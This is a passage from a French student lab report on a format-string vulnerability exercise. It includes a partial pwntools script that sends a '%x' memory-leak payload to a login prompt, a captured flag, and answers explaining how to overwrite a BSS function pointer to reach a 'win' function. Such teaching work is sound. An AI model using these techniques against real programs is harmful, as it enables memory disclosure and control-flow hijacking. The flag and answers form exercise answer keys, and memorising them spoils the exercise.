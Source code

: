 ```python
    r = remote(args.host, args.port)

else:
    #r = ELF(args.file)
    r = process(args.file)
    if args.gdb:
        gdb.attach(r, ''' break main ''')


#on affiche un partie de la mémoire avec %x
payload = 'Z' + "%x" * 99
payload = "materialistically"
#payload = "6553796d746572637373615064726f77"
r.sendlineafter('Login : ', payload)

r.interactive()
r.close()

```

On aurait pu écrire un payload qui fait tout cela de manière automatique, mais le temps étant une ressource cher

### Manipulation 2.2: Récupérez le flag et donnez le dans votre rapport.
`FLAG{Um6ryWCocX6Pxnv06jBTKsoCnbS0FVcS}`

## 3 Ecriture
But : Faire en sorte d’exécuter la fonction win et récupérer le flag.
Compilation : Le programme est compilé avec gcc -Wno-format-security -no-pie -fno-PIC
-m32 -O0.
Vous avez le code source de ce programme ainsi que le binaire.

### Question 3.1: Dans quelle partie de la mémoire se trouve le pointeur sur fonction ?
Dans le BSS. 

### Question 3.3: Est-ce que l’ASLR est activé en remote ?
Oui

### Manipulation 3.1: Affichez deux fois de suite l’adresse du pointeur sur fonction. Est-ce que cette adresse est modifiée ? Pourquoi ?
Non, car l'ASLR ne modifie pas la BSS et function est une variable globale donc stockée dans la BSS.

### Question 3.3: Que doit-on faire pour exécuter la fonction win ?
Il fait trouver l'adresse de function et réussir à modifier la valeur pointée, par la valeur de notre fonction win.
